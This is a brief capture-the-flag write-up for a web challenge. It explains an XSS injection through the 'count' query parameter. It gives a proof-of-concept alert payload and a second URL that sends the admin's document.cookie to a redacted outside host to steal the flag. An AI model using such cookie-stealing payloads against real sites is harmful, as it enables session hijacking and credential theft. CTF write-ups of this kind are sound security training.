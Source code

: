 # Shahname

# Description

my homework seems secure.


# Solution

the count query paramter vulnerable to XSS via code injection

to trigger an alert:

`https://shahname-chall.fmc.tf/?count=1");alert(1);("`


the url for reporting, and getting flag from admin's cookies

`https://shahname-chall.fmc.tf/?count=1");location="REDACTED?flag="+document.cookie;("`
